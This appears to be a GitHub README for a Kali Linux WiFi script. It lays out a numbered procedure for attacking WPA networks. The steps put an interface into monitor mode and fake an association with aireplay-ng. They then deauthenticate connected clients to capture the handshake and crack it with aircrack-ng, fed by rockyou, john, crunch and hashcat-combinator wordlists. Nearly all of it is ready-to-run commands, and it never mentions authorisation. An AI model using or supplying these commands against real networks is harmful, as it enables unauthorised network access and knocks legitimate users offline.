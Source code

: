 # kali wifi setup script

Just a basic script to bring a wlan0 interface up to monitor mode and start airodump-ng if required, once you have the interface running in monitor mode, then running airodump-ng you can use the process below in order to capture wireless data and aim to crack the wpa password.


Route to capture wpa handshake

1: use the above output to decide on target and note details:
```
BSSID:     00:00:00:00:22:30
ESSID:     TESTAP
Client:    00:00:00:00:00:ED
Mon0:      00:00:00:00:00:A8
Channel:   11
```
2: Screen 1 - Monitor target for clients using: 

```airodump-ng -c <Channel> --bssid <BSSID> -w <CaptureName> <Mon0 interface name>```
  
3: Screen 2 - Associate with the bssid: 

```aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your Mon0 MAC> <Mon0 interface name>```
  
4: Screen 3 - death a connected client periodically until the wpa handshake is witnessed / captured in screen 1 
  
```aireplay-ng -0 1 -a <AP MAC> -c <Client MAC to DeAuth> <Mon0 interface name>```
  
5: Go get a life and hope that you can attack the wifi handshake captured

```john --wordlist=/usr/share/wordlists/rockyou.txt --rules --stdout | aircrack-ng -0 -e "THEAPANAME" -w - /SOMEPATH/THECAPTURENAME.cap```

6: If you know a pattern for the wifi password then try the following items?

```crunch 8 8 abcdef1234567890 | aircrack-ng -0 -e "THEAPANAME" -w - /SOMEPATH/THECAPTURENAME.cap
crunch 8 8 abcdefghijklmnopqrstuvqxyz | aircrack-ng -0 -e "THEAPANAME" -w - /SOMEPATH/THECAPTURENAME.cap
```

7: Failing all the above and if you have a powerful enough GPU GTX 1080 :D then try combinations of words such as:

```/usr/lib/hashcat-utils/combinator.bin /usr/share/wordlists/rockyou.txt /usr/share/wordlists/rockyou.txt  |aircrack-ng -0 -e "THEAPANAME" -w - SOMEPATH/THECAPTURENAME.cap```


All of the above may produce 0 results and take a looong time to do so, however if weak words, patterns or weak words joined are used then the above will yield a result eventually......maybe......?
